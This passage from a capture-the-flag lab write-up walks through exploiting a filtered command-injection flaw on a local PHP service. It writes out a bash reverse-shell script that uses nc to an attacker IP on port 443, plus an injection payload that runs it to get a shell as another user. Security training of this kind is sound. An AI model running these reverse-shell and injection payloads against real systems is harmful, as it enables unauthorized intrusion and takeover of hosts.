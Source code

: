 By trying a list of special characters such as ``~ ! @ # $ % ^ & * ( ) - _ + = { } ] [ | \ ` , . / ? ; : ' " < >``, we can observe which ones get replaced and which do not.

We find that the characters `$`, `{`, `}`, `|`, `.`, and `/` do not get replaced.

![Web 9999 Special Chars](web_9999_special_chars.webp){: width="1200" height="600" }

```console
2024/09/20 21:23:18 CMD: UID=1002  PID=1329   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:23:18 CMD: UID=1002  PID=1330   | sh -c id ${}|./: >/dev/null 2>&1 &
```

We can use the `|` character to inject commands.

First, we create a bash script with a reverse shell payload on the machine.

```console
www-data@Breakme:/tmp$ cat > /dev/shm/rev.sh << EOF
> #!/bin/bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f
> EOF
www-data@Breakme:/tmp$ chmod +x /dev/shm/rev.sh
```

Now, using the `|/dev/shm/rev.sh||` payload as the user input, we can make the application run it to get a shell as the `john` user and can read the first flag.

```console
2024/09/20 21:28:56 CMD: UID=1002  PID=1347   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:28:56 CMD: UID=1002  PID=1348   | sh -c id |/dev/shm/rev.sh|| >/dev/null 2>&1 &
2024/09/20 21:28:56 CMD: UID=1002  PID=1351   | /bin/bash /dev/shm/rev.sh
```

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.225.113] 59312
bash: cannot set terminal process group (531): Inappropriate ioctl for device
bash: no job control in this shell
john@Breakme:~/internal$ id
uid=1002(john) gid=1002(john) groups=1002(john)
john@Breakme:~/internal$ wc -c ~/user1.txt
33 /home/john/user1.txt
```

## Shell as youcef

### Reverse Engineering the readfile

Checking `/home/youcef`, we find a SUID binary owned by the user that we can run.

```console
john@Breakme:~$ ls -la /home/youcef/
total 52
drwxr-x--- 4 youcef john    4096 Aug  3  2023 .
drwxr-xr-x 5 root   root    4096 Feb  3  2024 ..
lrwxrwxrwx 1 youcef youcef     9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 youcef youcef   220 Aug  1  2023 .bash_logout
-rw-r--r-- 1 youcef youcef  3526 Aug  1  2023 .bashrc
drwxr-xr-x 3 youcef youcef  4096 Aug  1  2023 .local
-rw-r--r-- 1 youcef youcef   807 Aug  1  2023 .profile
-rwsr-sr-x 1 youcef youcef 17176 Aug  2  2023 readfile
-rw------- 1 youcef youcef  1026 Aug  2  2023 readfile.c
drwx------ 2 youcef youcef  4096 Aug  5  2023 .ssh
```
